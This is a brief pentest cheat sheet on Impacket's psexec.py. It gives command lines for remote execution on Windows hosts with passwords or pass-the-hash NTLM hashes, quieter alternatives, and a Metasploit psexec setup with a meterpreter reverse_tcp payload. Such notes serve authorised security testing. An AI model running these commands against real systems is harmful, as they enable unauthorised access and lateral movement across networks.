 

# usage 
```bash
psexec.py USUERNAME:PASSWORD@IP 


# pass hash
psexec.py USUERNAME:@IP -hashes HASH # need full NTLM hash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2b73e1a325df8ca7bd82063457391964 cs.org/Administrador@192.168.200.129

psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP 
#  creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe

# flags
-hashes # passhash


```

## Less noisy start with these
smbexec
wmiexec


## psexec over msfconsole
```ruby
use windows/smb/psexec
set rhosts TARGET IP
set smbdomain DOMAIN
set smbpass and smbuser
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```


---
Tags: #psexec #impackets #smb #passhash
Resources: [Impacket](https://github.com/fortra/impacket)